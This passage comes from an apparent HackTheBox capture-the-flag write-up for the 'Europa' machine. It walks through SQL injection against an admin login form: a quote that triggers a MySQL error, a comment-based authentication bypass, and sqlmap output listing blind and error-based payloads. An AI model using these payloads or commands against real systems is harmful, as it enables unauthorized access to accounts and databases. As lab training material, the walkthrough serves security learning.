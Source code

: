 ```http
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://admin-portal.europacorp.htb/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

email=admin%40europacorp.htb&password=password
```

Then I sent the request to Burp’s Repeater and tried some SQL syntax.

Upon using `'`, I realized that the server returned an SQL error. This indicates possible SQLi vulnerability.

```http
HTTP Request
...
email=admin%40europacorp.htb'&password=password

HTTP Response
...
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '5f4dcc3b5aa765d61d8327deb882cf99'' at line 1
```

Basic SQL injection techniques and `’-- -` or `’;-- -` worked.

```http
HTTP Request
...
email=admin%40europacorp.htb'--+-&password=password

HTTP Response
HTTP/1.1 302 Found
Date: Mon, 09 May 2022 02:22:35 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Location: https://admin-portal.europacorp.htb/dashboard.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

### SQLMap - Second Method

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# sqlmap -r login_request.txt --batch --force-ssl
...
sqlmap identified the following injection point(s) with a total of 348 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=shiro@shiro.com' RLIKE (SELECT (CASE WHEN (3338=3338) THEN 0x736869726f40736869726f2e636f6d ELSE 0x28 END))-- BtER&password=password

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: email=shiro@shiro.com' AND GTID_SUBSET(CONCAT(0x716b7a7171,(SELECT (ELT(3998=3998,1))),0x716b6a7871),3998)-- scRF&password=password
```
